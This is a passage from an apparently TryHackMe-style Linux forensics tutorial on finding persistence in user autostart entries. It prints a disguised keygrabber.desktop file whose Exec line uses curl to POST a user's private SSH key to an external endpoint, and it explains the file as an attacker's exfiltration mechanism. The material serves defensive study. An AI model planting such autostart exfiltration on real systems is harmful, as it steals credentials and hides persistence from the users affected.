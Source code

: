 ### Enumerating User Autostart Scripts

```shell-session
ls -a /home/*/.config/autostart

/home/eduardo/.config/autostart:
.  ..  dev.desktop

/home/janice/.config/autostart:
.  ..  keygrabber.desktop
```

From the above output, we have identified a couple of entries. Specifically, `keygrabber.desktop` under Janice's home directory looks interesting. To view the contents of the autostart entry, we can `cat` the file:

### Viewing Janice's Autostart Script

```shell-session
cat /home/janice/.config/autostart/keygrabber.desktop
[Desktop Entry]
Type=Application
Name=Standard Desktop Configuration (DO NOT MODIFY)
Exec=/bin/bash -c "curl -X POST -d '/home/janice/.ssh/id_rsa' http://*****.****-**-********.***/**_***"
```

After analysing the configuration script, it's safe to say we found another persistence method. Specifically, the script uses the `curl` command under the Exec entry to issue a POST request to an external URL. More interestingly, however, the contents of `/home/janice/.ssh/id_rsa` are being sent to the server via the POST request. The `id_rsa` file is Janice's private SSH key and should never be shared, as anyone with the key can connect as Janice to the host.

This configuration suggests that upon startup, it will execute a curl command to send the contents of Janice's SSH private key (id\_rsa file) to an attacker-controlled endpoint.

Other user-related configuration files that should be investigated include:

* \~/.bash\_history: This file contains a history of commands executed by the user in the Bash shell, providing insights into their activities and commands executed.
* \~/.ssh: This directory contains SSH-related files, including a user's SSH keys (id\_rsa, id\_rsa.pub), known\_hosts, and authorized\_keys.
* \~/.profile: This file typically contains user-specific initialisation commands and settings for their shell environment, and similar to autostart scripts, could contain malicious commands.
* Message of the Day (MOTD) While not directly a user-configured file, the Message of the Day is the message that is presented to the user when a user connects to a Linux server via SSH or a serial connection. Linux systems contain several default MOTD files in the `/etc/update-motd.d/` and `/usr/lib/update-notifier/` directories. Like autostart scripts, attackers can create malicious MOTD files that grant them persistence onto the target every time a user connects to the system by executing a backdoor script or command.

The [Linux File System Analysis](https://tryhackme.com/room/linuxfilesystemanalysis) room investigates some of these locations more thoroughly.


